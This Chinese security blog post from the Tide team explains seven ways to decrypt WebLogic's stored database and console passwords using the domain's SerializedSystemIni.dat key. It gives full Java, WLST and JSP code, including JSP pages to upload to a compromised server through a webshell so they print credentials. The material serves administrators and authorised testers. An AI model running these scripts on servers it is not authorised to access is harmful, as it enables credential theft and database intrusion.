

<div align=center></div>

# 一文解密所有weblogic密文

**本文为Tide安全团队成员`重剑无锋`原创文章，转载请声明出处！**

# 前言

关于weblogic密文的解密文章也有不少，最早看到的是之前乌云的一篇解密文章，后来oracle官方也出了解密脚本，还有国外大牛NetSPI写的工具，但经过多次试用发现并不能“通杀”式的解决所有weblogic密文，于是在查阅大量资料后整理了7种解密weblogic的方法。

# 背景

在一些hw行动中，webshell权限的分值可能还没有数据库权限的分值高，所以很多时候在拿到webshell后第一时间就是去翻配置文件找数据库连接密码，然后配置代理连接数据库截图拿分。

或者自己的weblogic由于长时间没有登录，忘记了console登录密码，这时候可能也需要对密文进行解密。

如果中间件是使用的tomcat，那么数据库连接密码一般都是明文保存在配置文件中的，但很多政府单位或大中型企业用weblogic居多，而生产环境部署的weblogic默认会对数据库连接字符串进行加密，还会对console控制台的登录账号和密码进行加密。

# weblogic加密分析

weblogic目前市面上有两种加密方式3DES和AES，这两种加密都属于对称加密，所以只要有密钥就能解出密文。

先来简单了解下3DES和AES：

DES：Data Encryption Standard（数据加密标准）是一种经典的对称算法，其数据分组长度为64位，使用的密钥为64位，有效密钥长度为56位（有8位用于奇偶校验）。由IBM公司在70年代开，于1976年11月被美国国密局采用。该技术算法公开，在各行业有着广泛的应用。

3DES:由于计算机能力的飞速发展，DES的56位密钥长度显得有些太短了，已经有可能通过暴力穷举的方式对密文进行破译，于是有了3DES。3DES相当于对统一数据块采用3次DES,3次DES使用的密钥如果完全不同，则密钥长度可以达到168位，大大延长了被暴力破解的时间。

AES：Advanced Encryption Standard（高级数据加密标准），NIST（美国国家标准和技术协会）挑选出的下一代加密算法，能够抵御已知的针对 DES 算法的所有攻击，而且相比于 3DES， 它的加密效率高，安全性能高。

对加密算法感兴趣的可以看看《图解密码技术》，讲的比较通俗易懂。

其实，不懂算法也没任何关系，因为我们可以通过weblogic版本号来区分加密方式。weblogic在旧版本的加密中使用的是3DES，而在WebLogic 11gR1之后的版本中就开始使用AES进行加密。有些人对weblogic版本不太清楚，总觉得10.3.6是11g之前的老版本，其实10.3.6就是属于11g的，这个只能怪oracle发布的版本号有点乱。

大家看下这个表就能轻易看懂版本号了。

```
WebLogic Server 12cR2（12.2.1.4）-2019年9月27日
WebLogic Server 12cR2（12.2.1.3）-2017年8月30日
WebLogic Server 12cR2（12.2.1.2）-2016年10月19日
WebLogic Server 12cR2（12.2.1.1）-2016年6月21日
WebLogic Server 12cR2（12.2.1.0）-2015年10月23日
WebLogic Server 12cR1（12.1.3）-2014年6月26日
WebLogic Server 12cR1（12.1.2）-2013年7月11日
WebLogic Server 12cR1（12.1.1）-2011年12月1日
WebLogic Server 11gR1 PS5 (10.3.6) - 2012年2月23日
WebLogic Server 11gR1 PS4 (10.3.5) - 2011年5月6日
WebLogic Server 11gR1 PS3 (10.3.4) - 2011年1月15日
WebLogic Server 11gR1 PS2 (10.3.3) - 2010年四月
WebLogic Server 11gR1 PS1 (10.3.2) - 2009年11月
```
----AES和3DES加密方式分割线,上面的就是AES加密，下面的就是3DES加密----
```
WebLogic Server 11g (10.3.1) - 2009年7月
WebLogic Server 10.3 - 2008年8月
WebLogic Server 10.0 - 2007年3月
WebLogic Server 9.2.4 - 2010年7月22日
WebLogic Server 9.1
WebLogic Server 9.0 - 【Diablo】2006年11月
WebLogic Server 8.1－2003年7月发行到2004年8月为成熟版本，也已不再支持
WebLogic Server 7.0－2002年6月发行但是BEA公司推荐放弃使用。
WebLogic Server 6.1 - 从November 2006不再支持
WebLogic Server 6.0 - 2001年3月，从April 2003不再支持
WebLogic Server 5.1 -（代码名：Denali）第一个支持热部署技术的版本
WebLogic Server 4.0 - 1999年
WebLogic Tengah 3.1 - 1998年6月
WebLogic Tengah 3.0.1 - 1998年3月
WebLogic Tengah 3.0 - 1998年1月
WebLogic Tengah - 1997年11月
```

你说看不到版本号？也没问题，其实看下配置文件里的连接字符串，一看就能看出使用的是什么加密方式。因为在每个加密字符串前都标识了{AES}或{3DES}。

比如AES一般是这样的`{AES}ObwFrA5PSOW+/7+vgtZpxk/1Esw81ukoknfH4QUYjWY=`

3DES一般是这样的`{3DES}JMRazF/vClP1WAgy1czd2Q==`

在了解了weblogic加密方式后，我们开始对其解密。

文中涉及的所有工具和脚本都打包放在了github上，方便大家下载
```
https://github.com/TideSec/Decrypt_Weblogic_Password
```

# 解密前的准备

自己搭建weblgic环境建议使用docker，我是直接用的p神的vulhub里的weblogic环境，测试主要使用了weblogic 10.3.6版本和weblogic 12.2.1.3两个版本，docker compose在这里`https://github.com/vulhub/vulhub/tree/master/weblogic/`。

- 账号权限：weblogic或root用户权限，能查看weblogic域文件

- 密钥文件：SerializedSystemIni.dat

SerializedSystemIni.dat是解密的核心文件，一般保存在weblogic域的security目录下。比如weblogic的domain目录为：

```
/root/Oracle/Middleware/user_projects/domains/base_domain/
```
那么SerializedSystemIni.dat文件一般在
```
/root/Oracle/Middleware/user_projects/domains/base_domain/security/SerializedSystemIni.dat
```

一个domain里面只会有一个这个文件，如果一个weblogic下有多个domain,可能会出现多个`SerializedSystemIni.dat`文件，这时候可以通过find一下就可以。由于系统有个自带sample目录也有该文件，所以出现多个结果，稍微分辨一下就可以。



- 密文文件

weblogic的密文分两类，一类是数据库连接字符串，一类是console登录用户名和密码。

数据库连接字符串一般是在config/jdbc目录下的**jdbc.xml文件中:`/root/Oracle/Middleware/user_projects/domains/base_domain/config/jdbc/tide-jdbc.xml`

.png)

而console登录用户名和密码一般也是在`security`目录下：`/root/Oracle/Middleware/user_projects/domains/base_domain/security/boot.properties`

.png)

有了这几个文件后，便可以尝试对密文进行解密了。

# 解密方法1：官方解密方法

oracle官方给出的解密方法，但后来又莫名其妙从官方网站删掉了，且该方法需要在与WebLogic相同的domain下使用，成功率比较低。

适用场景：本地和服务器上都可以执行，但本地的话要求比较多，该方法我是直接在服务器上测试运行。

操作难易：★★★

成功几率：★★

推荐指数：★★

相关工具：`https://github.com/TideSec/Decrypt_Weblogic_Password/tree/master/Tools1-decryptWLSPwd`

---

WebLogic上自带了一个叫做WLST (WebLogic Scripting Tool)的脚本工具，是一种命令行脚本界面，系统管理员可以用它来监视和管理WebLogic实例和域。也就是说，除了在WebLogic管理控制后台进行操作管理外，还可以通过使用WLST以Command命令行的方式在管理控制台进行管理。而利用该工具我们可以运行python。

官方python解密脚本如下,代码出自`https://blogs.oracle.com/jiechen/entry/decrypt_encrypt_the_weblogic_password`，后来被删除。

```
import os
import weblogic.security.internal.SerializedSystemIni
import weblogic.security.internal.encryption.ClearOrEncryptedService
def decrypt(agileDomain, encryptedPassword):
    agileDomainPath = os.path.abspath(agileDomain)
    encryptSrv = weblogic.security.internal.SerializedSystemIni.getEncryptionService(agileDomainPath)
    ces = weblogic.security.internal.encryption.ClearOrEncryptedService(encryptSrv)
    password = ces.decrypt(encryptedPassword)
    print "Plaintext password is:" + password
try:
    if len(sys.argv) == 3:
        decrypt(sys.argv[1], sys.argv[2])
    else:
                   print "Please input arguments as below"
                   print "                Usage 1: java weblogic.WLST decryptWLSPwd.py  "
                   print "                Usage 2: decryptWLSPwd.cmd "
                   print "Example:"
                   print "                java weblogic.WLST decryptWLSPwd.py C:\Agile\Agile933\agileDomain {AES}JhaKwt4vUoZ0Pz2gWTvMBx1laJXcYfFlMtlBIiOVmAs="
                   print "                decryptWLSPwd.cmd {AES}JhaKwt4vUoZ0Pz2gWTvMBx1laJXcYfFlMtlBIiOVmAs="
except:
    print "Exception: ", sys.exc_info()[0]
    dumpStack()
raise
```
在服务器上运行解密命令如下:
```
java weblogic.WLST decryptWLSPwd.py . "{AES}yvGnizbUS0lga6iPA5LkrQdImFiS/DJ8Lw/yeE7Dt0k="
```

.png)

可能是因为成功率低或者其他原因，官方随后删掉了该脚本，后来NetSPI的大佬写了个下面方法2的工具`https://github.com/NetSPI/WebLogicPasswordDecryptor`，并把分析过程写了篇文章，译文可以看做个`http://bobao.360.cn/learning/detail/337.html`。

# 解密方法2：NetSPI大佬的工具

使用解密工具本地执行，该工具也是weblogic解密使用最多的一个，但java版编译略麻烦，成功率也比较一般。

适用场景：本地机器执行

操作难易：★★★★

成功几率：★★★

推荐指数：★★

相关工具：`https://github.com/TideSec/Decrypt_Weblogic_Password/tree/master/Tools2-WebLogicPasswordDecryptor`

---

原作者地址为`https://github.com/NetSPI/WebLogicPasswordDecryptor`，但这里面并没有`bcprov-jdk15on-162.jar`包，自己编译时会报错。

里面有两个版本，一个是powershell版，一个是java版的。

先说java版的。我使用的mac进行编译，过程如下。

从我的github里`https://github.com/TideSec/Decrypt_Weblogic_Password/tree/master/Tools2-WebLogicPasswordDecryptor`或者从官网`https://www.bouncycastle.org/latest_releases.html`下载一个`bcprov-ext-jdk15on-162.jar`包，拷贝到`$JAVA_HOME\jre\lib\ext\`。

.png)

在`$JAVA_HOME\jre\lib\security\java.security`中增加一行
`security.provider.11=org.bouncycastle.jce.provider.BouncyCastleProvider`

.png)

编译JAVA文件，有可能会报警，只要不报错就没事，然后输入密钥和密文即可解密。

.png)

但之前遇到过几次解不出来的情况，使用其他方式则能顺利解出明文。

再说powershell版的，使用比较简单，在powershell中导入

```
Import-Module .\Invoke-WebLogicPasswordDecryptor.psm1

```
这个时候如果报错`无法加载文件 Invoke-WebLogicPasswordDecryptor.ps1，因为在此系统中禁止执行脚本`这样的错误，可以先执行`set-ExecutionPolicy RemoteSigned`，再重新导入即可。

.png)

但是在执行解密的时候又报错了，尝试在不同操作系统下执行，都是一样的错误，这个解密的ps脚本从来没成功过。

.png)


# 解密方法3：执行java代码1

在本地或服务器上都可执行，本地的话需要weblogic环境，且版本要和目标系统版本一致。在服务器上执行时要求能通过webshell能执行java命令。

适用场景：本地或服务器上都可执行

操作难易：★★★★

成功几率：★★★

推荐指数：★★★

相关工具：`https://github.com/TideSec/Decrypt_Weblogic_Password/tree/master/Tools3-Decrypt`

---

找到密钥文件`SerializedSystemIni.dat`，把它复制到其他的文件夹，比如/tmp下面。

在这个文件夹下新建一个java文件，Decrypt.java，名字需要和内容的class名字一样。

```
import weblogic.security.internal.*;
import weblogic.security.internal.encryption.*;

import java.io.PrintStream;


public class Decrypt {
    static EncryptionService es = null;
    static ClearOrEncryptedService ces = null;

    public static void main(String[] args) {
        String s = null;

        if (args.length == 0) {
            s = ServerAuthenticate.promptValue("Password: ", false);
        } else if (args.length == 1) {
            s = args[0];
        } else {
            System.err.println("Usage: java Decrypt [ password ]");
        }

        es = SerializedSystemIni.getExistingEncryptionService();

        if (es == null) {
            System.err.println("Unable to initialize encryption service");

            return;
        }

        ces = new ClearOrEncryptedService(es);

        if (s != null) {
            System.out.println("\nDecrypted Password is:" + ces.decrypt(s));
        }
    }
}
```

根据目标的操作系统，在weblogic目录中找到setWLSEnv.cmd 或者 setWLSEnv.sh 并且执行。

.png)

注意该文件并非是
`/root/Oracle/Middleware/user_projects/domains/base_domain/bin/setDomainEnv.sh`

而是`/root/Oracle/Middleware/wlserver_10.3/server/bin/setWLSEnv.sh`

.png)

执行后会出来一长串环境变量，分别是CLASSPATH和PATH。


但是有些情况下这些环境变量没有加进去(可以通过`echo $CLASSPATH` 查看是否为空)，`$CLASSPATH`为空时则需要手工执行一下(linux下，windows一般不会出现这个情况)

手工执行`setWLSEnv.sh`的内容
```
export CLASSPATH=/root/Oracle/Middleware/patch_wls1036/profiles/default/sys_manifest_classpath/weblogic_patch.jar:/root/jdk/jdk1.6.0_45/lib/tools.jar:/root/Oracle/Middleware/wlserver_10.3/server/lib/weblogic_sp.jar:/root/Oracle/Middleware/wlserver_10.3/server/lib/weblogic.jar:/root/Oracle/Middleware/modules/features/weblogic.server.modules_10.3.6.0.jar:/root/Oracle/Middleware/wlserver_10.3/server/lib/webservices.jar:/root/Oracle/Middleware/modules/org.apache.ant_1.7.1/lib/ant-all.jar:/root/Oracle/Middleware/modules/net.sf.antcontrib_1.1.0.0_1-0b2/lib/ant-contrib.jar:

export PATH=/root/Oracle/Middleware/wlserver_10.3/server/bin:/root/Oracle/Middleware/modules/org.apache.ant_1.7.1/bin:/root/jdk/jdk1.6.0_45/jre/bin:/root/jdk/jdk1.6.0_45/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/root/Oracle/Middleware/oracle_common/common/bin:/root/Oracle/Middleware/wlserver_10.3/common/bin:/root/Oracle/Middleware/user_projects/domains/base_domain/bin

```
再执行一下echo $CLASSPATH确认是否加上了。成功后就可以进行下一步了。

到之前放Decrypt.java的目录执行`javac Decrypt.java` 

然后执行 `java Decrypt` 加密后密码，比如
```
java Decrypt {AES}yvGnizbUS0lga6iPA5LkrQdImFiS/DJ8Lw/yeE7Dt0k= 
```
执行完后就会告诉你 `Decrypted Password is : Oracle@123`

.png)

weblogic的控制台密码也是用同样的方式加密的。

# 解密方法4：执行java代码2

其实和方法3原理类似，只是多了对xml的解析，可以把xml里的所有密文都能一次性解密。

适用场景：本地或服务器上都可执行

操作难易：★★★★

成功几率：★★★

推荐指数：★★★

相关工具：`https://github.com/TideSec/Decrypt_Weblogic_Password/tree/master/Tools4-WebLogicDecryptor`

---

代码如下`WebLogicDecryptor.java`：

```
import java.util.*;
import java.io.*;
import javax.xml.parsers.*;
import javax.xml.xpath.*;
import org.w3c.dom.*;
import weblogic.security.internal.*; // requires weblogic.jar in the class path
import weblogic.security.internal.encryption.*;
 
public class WebLogicDecryptor {
	private static final String PREFIX = "{AES}";
	private static final String XPATH_EXPRESSION = "//node()[starts-with(text(), '"
			+ PREFIX + "')] | //@*[starts-with(., '" + PREFIX + "')]";
	private static ClearOrEncryptedService ces;
 
	public static void main(String[] args) throws Exception {
		if (args.length < 2) {
			throw new Exception("Usage: [domainDir] [configFile]");
		}
 
		ces = new ClearOrEncryptedService(
				SerializedSystemIni.getEncryptionService(new File(args[0])
						.getAbsolutePath()));
		File file = new File(args[1]);
		if (file.getName().endsWith(".xml")) {
			processXml(file);
		}
 
		else if (file.getName().endsWith(".properties")) {
			processProperties(file);
		}
 
	}
 
	private static void processXml(File file) throws Exception {
		Document doc = DocumentBuilderFactory.newInstance()
				.newDocumentBuilder().parse(file);
		XPathExpression expr = XPathFactory.newInstance().newXPath()
				.compile(XPATH_EXPRESSION);
		NodeList nodes = (NodeList) expr.evaluate(doc, XPathConstants.NODESET);
		for (int i = 0; i < nodes.getLength(); i++) {
			Node node = nodes.item(i);
			print(node.getNodeName(), node.getTextContent());
		}
 
	}
 
	private static void processProperties(File file) throws Exception {
		Properties properties = new Properties();
		properties.load(new FileInputStream(file));
		for (Map.Entry p : properties.entrySet()) {
			if (p.getValue().toString().startsWith(PREFIX)) {
				print(p.getKey(), p.getValue());
			}
		}
	}
 
	private static void print(Object attributeName, Object encrypted) {
		System.out.println("Node name: " + attributeName);
		System.out.println("Encrypted: " + encrypted);
		System.out.println("Decrypted: " + ces.decrypt((String) encrypted)
				+ "\n");
	}
}
```
和方法3一样需要配置环境变量，然后对java代码进行编译

```
javac WebLogicDecryptor.java
```

编译后执行
```
java WebLogicDecryptor  domina_dir config_file
```
在我这里就是

`java WebLogicDecryptor /root/Oracle/Middleware/user_projects/domains/base_domain /root/Oracle/Middleware/user_projects/domains/base_domain/config/config.xml`

.png)


# 解密方法5：本地GUI解密工具

使用一剑大佬已经写好的解密工具，不需要本地安装weblogic环境，工具已经自带lib依赖文件。成功率比较高，简单易用，比较推荐。

适用场景：本地执行

操作难易：★

成功几率：★★★★

推荐指数：★★★★

相关工具：`https://github.com/TideSec/Decrypt_Weblogic_Password/tree/master/Tools5-weblogic_decrypt`

---

拿到`SerializedSystemIni.dat`文件后，使用工具`weblogic_decrypt.jar`进行直接解密。

灰常简单，选择`SerializedSystemIni.dat`文件，填入密文，即可解密。

.png)


# 解密方法6：服务端jsp解密1

jsp脚本解密，需要上传jsp文件到服务器，访问即可获取密码，需要提前配置一下及格参数。

适用场景：在服务器中上传jsp即可

操作难易：★★

成功几率：★★★

推荐指数：★★★★

相关工具：`https://github.com/TideSec/Decrypt_Weblogic_Password/tree/master/Tools6-get_wls_pwd1`

---

在使用前需要改一下PREFIX，还需要指定Secruity_path和Config_path路径。然后上传到目标服务器上，访问即可。

.png)

代码如下：

```
<%@ page contentType="text/html; charset=GBK" %>
<%@ page import="java.io.*"%>
<%@ page import="java.util.*"%>
<%@ page import="javax.xml.parsers.*"%>
<%@ page import="org.w3c.dom.*"%>
<%@ page import="javax.xml.xpath.*"%>
<%@ page import="weblogic.security.internal.*"%>
<%@ page import="weblogic.security.internal.encryption.*"%>

<%!
private static final String PREFIX = "{AES}";
private static final String XPATH_EXPRESSION = "//node()[starts-with(text(), '"
			+ PREFIX + "')] | //@*[starts-with(., '" + PREFIX + "')]";
private static ClearOrEncryptedService ces;
private static final String Secruity_path = "/root/Oracle/Middleware/user_projects/domains/base_domain/security";
private static final String Config_path = "/root/Oracle/Middleware/user_projects/domains/base_domain/config/config.xml";


private static String processXml(File file)  {
		String result = "";
		try{
			Document doc = DocumentBuilderFactory.newInstance()
					.newDocumentBuilder().parse(file);
			XPathExpression expr = XPathFactory.newInstance().newXPath()
					.compile(XPATH_EXPRESSION);
			NodeList nodes = (NodeList) expr.evaluate(doc, XPathConstants.NODESET);
			for (int i = 0; i < nodes.getLength(); i++) {
				Node node = nodes.item(i);
				result = print(node.getNodeName(), node.getTextContent());
			}
		}catch (Exception e) {
				result = "<font color=\"red\">出错了。。</font>";
			
		}
		return result;
 
	}
private static String processProperties(File file) 
{
		String result = "";
		try{
			Properties properties = new Properties();
			properties.load(new FileInputStream(file));
			for (Map.Entry p : properties.entrySet()) {
				if (p.getValue().toString().startsWith(PREFIX)) {
					result = print(p.getKey(), p.getValue());
				}
			}
		
		}catch (Exception e) {
				result = "<font color=\"red\">出错了。。</font>";
			
		}
		
		return result;
}
private static String print(Object attributeName, Object encrypted)
{
		String retStr = "Node name: " + attributeName +"<br>";
		retStr += "Encrypted: " + encrypted + "<br>";
		retStr += "Decrypted: " + ces.decrypt((String) encrypted );
		return retStr;
}

private static String getPassword()
{
	String result = "";
	ces = new ClearOrEncryptedService(
				SerializedSystemIni.getEncryptionService(new File(Secruity_path)
						.getAbsolutePath()));
		File file = new File(Config_path);
		if (file.getName().endsWith(".xml")) {
			result = processXml(file);
		}
 
		else if (file.getName().endsWith(".properties")) {
			result = processProperties(file);
		}
	return result;
}

%>
<%

out.println(getPassword());
%>
```

# 解密方法7：服务端jsp解密2

jsp脚本解密，需要上传jsp文件到服务器，访问即可获取密码，简单粗暴，非常推荐！

适用场景：在服务器中上传jsp即可

操作难易：★

成功几率：★★★

推荐指数：★★★★★

相关工具：`https://github.com/TideSec/Decrypt_Weblogic_Password/tree/master/Tools7-get_wls_pwd2`

---

只需要把要解密的密文写在jsp文件中即可，上传服务器，访问后即得明文。

.png)

代码如下：

```
<%@page pageEncoding="utf-8"%>
<%@page import="weblogic.security.internal.*,weblogic.security.internal.encryption.*"%>
<%
   EncryptionService es = null;
   ClearOrEncryptedService ces = null;
    String s = null;
    s="{AES}yvGnizbUS0lga6iPA5LkrQdImFiS/DJ8Lw/yeE7Dt0k=";
    es = SerializedSystemIni.getEncryptionService();
    if (es == null) {
       out.println("Unable to initialize encryption service");
        return;
    }
    ces = new ClearOrEncryptedService(es);
    if (s != null) {
        out.println("\nDecrypted Password is:" + ces.decrypt(s));
    }
%>
```

# 注意事项

1、如果AES加密后的密码为：`{AES}Nu2LEjo0kxMEd4G5L9bYLE5wI5fztbgeRpFec9wsrcQ\=` 破解时需要把后面的\给去掉，不然会执行报错。

2、有时候用webshell下载密钥`SerializedSystemIni.dat`文件后可能会和源文件不一致，从而导致解密失败，主要是因为`SerializedSystemIni.dat`文件为二进制文件，直接使用浏览器下载可能遭到破坏。

这时可以使用webshell执行tar命令，将`SerializedSystemIni.dat`文件打包后再下载或者使用Burpsuite的copy to file来进行保存。

一般来说`SerializedSystemIni.dat`文件为64字节，如果大小和这个不符，那么你下载的密钥可能不是原始文件。


# 参考资料

weblogic密码加解密：https://blog.csdn.net/rznice/article/details/50906335

weblogic的boot.properties中密码破解：http://www.itpub.net/thread-1421403-1-1.html

Weblogic解密脚本（无需weblogic环境）：https://blog.csdn.net/qq_27446553/article/details/51013151

我们应该了解的JNDI数据源配置：https://www.freebuf.com/news/193304.html

破解weblogic(数据库)密码：https://www.cnblogs.com/holdon521/p/4110750.html

解密JBoss和Weblogic数据源连接字符串和控制台密码：http://drops.xmd5.com/static/drops/tips-349.html

解密WebLogic的密码：http://bobao.360.cn/learning/detail/337.html

# 关于我们

对web安全感兴趣的小伙伴可以关注团队官网: http://www.TideSec.com 或关注公众号：

<div align=center></div>

